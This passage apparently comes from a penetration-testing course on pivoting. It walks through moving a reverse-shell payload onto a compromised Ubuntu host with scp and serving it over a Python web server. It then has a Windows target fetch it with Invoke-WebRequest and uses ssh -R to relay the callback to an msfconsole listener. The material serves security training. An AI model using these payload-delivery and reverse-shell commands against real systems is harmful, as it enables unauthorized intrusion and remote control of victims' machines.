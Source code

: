 Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.

#### Transferring Payload to Pivot Host

  Remote/Reverse Port Forwarding with SSH

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00 
```

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

#### Starting Python3 Webserver on Pivot Host

  Remote/Reverse Port Forwarding with SSH

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload on the Windows Target

We can download this `backupscript.exe` on the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

  Remote/Reverse Port Forwarding with SSH

```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

#### Using SSH -R

  Remote/Reverse Port Forwarding with SSH

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.
# Socat Redirection with a Reverse Shell
